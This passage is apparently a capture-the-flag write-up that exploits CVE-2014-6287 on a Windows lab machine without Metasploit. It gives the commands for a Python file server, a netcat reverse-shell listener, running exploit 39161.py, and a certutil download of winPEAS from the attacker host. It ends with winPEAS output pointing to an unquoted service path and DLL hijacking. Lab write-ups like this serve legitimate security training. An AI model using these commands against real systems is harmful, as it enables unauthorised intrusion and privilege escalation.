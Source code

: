 ```

meterpreter > 
```

### Without Metasploit

To access this machine without using metasploit, we start by searching for the exploit (CVE-2014-6287) on [Exploit Database](https://www.exploit-db), and then download it.

Change the Local IP address and Port number.

```sh
vim 39161.py

...
34 
35     ip_addr = "LOCAL_IP" #local IP address
36     local_port = "4444" # Local Port number
...
	 
```
Start a Python Server on Port 80 and a `nc` listener on any port of your choosing, and run the exploit twice with the target IP Address and Port following.

```sh
python3 -m http.server 80
```

```sh
nc -lvnp 4444
```

```sh
python3 39161.py TARGET_IP 8080
```

We now have a command prompt on the netcat listener.

```
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>
```

#### Privilege Escalation

To gain elevated privileges, we will first download, transfer, and run winPEAS to find vulnerabilities. 

Download winPEAS to the Windows machine.

```
C:\> certutil -urlcache -f http://LOCAL_IP/winPEASx86.exe winPEAS.exe
```

Then run it with the `servicesinfo` specification.

```
C:\> winPEAS.exe servicesinfo

 Interesting Services -non Microsoft-
  Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
	AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected
  File Permissions: bill [WriteData/CreateFiles]
  Possible DLL Hijacking in binary folder: C:\Program Files (x86)\IObit\Advanced SystemCare (bill [WriteData/CreateFiles])
  Advanced SystemCare Service
```
